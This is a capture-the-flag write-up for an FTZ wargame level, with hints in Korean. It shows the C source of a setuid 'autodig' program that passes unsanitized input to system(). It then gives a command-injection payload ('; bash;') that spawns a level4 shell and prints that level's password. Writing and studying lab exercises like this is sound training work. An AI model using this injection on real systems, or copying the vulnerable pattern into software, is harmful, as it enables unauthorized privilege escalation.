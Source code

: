 # Level3

This level's goal:

- system('CMD') vulnerability

***

`[level3@ftz level3]$ cat hint`

다음 코드는 **autodig**의 소스이다.
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main(int argc, char **argv){

char cmd[100];

if( argc!=2 ){
    printf( "Auto Digger Version 0.9\n" );
    printf( "Usage : %s host\n", argv[0] );
    exit(0);
}

strcpy( cmd, "dig @" );
strcat( cmd, argv[1] );
strcat( cmd, " version.bind chaos txt");

system( cmd );
}
```

이를 이용하여 level4의 권한을 얻어라.

more hints.

1) 동시에 여러 명령어를 사용하려면?

2) 문자열 형태로 명령어를 전달하려면?

***

`[level3@ftz level3]$ find / -name autodig 2>/dev/null`

/bin/autodig

`[level3@ftz level3]$ find / -user level4 -perm -4000 2>/dev/null`

/bin/autodig

`[level3@ftz level3]$ ls -l /bin/autodig`

-rwsr-x---    1 level4   level3      12194 Aug 19  2014 /bin/autodig

`[level3@ftz level3]$ /bin/autodig "8.8.8.8 www.naver.com; bash;"`

`[level4@ftz level3]$ my-pass`

Level4 Password is "suck my brain".


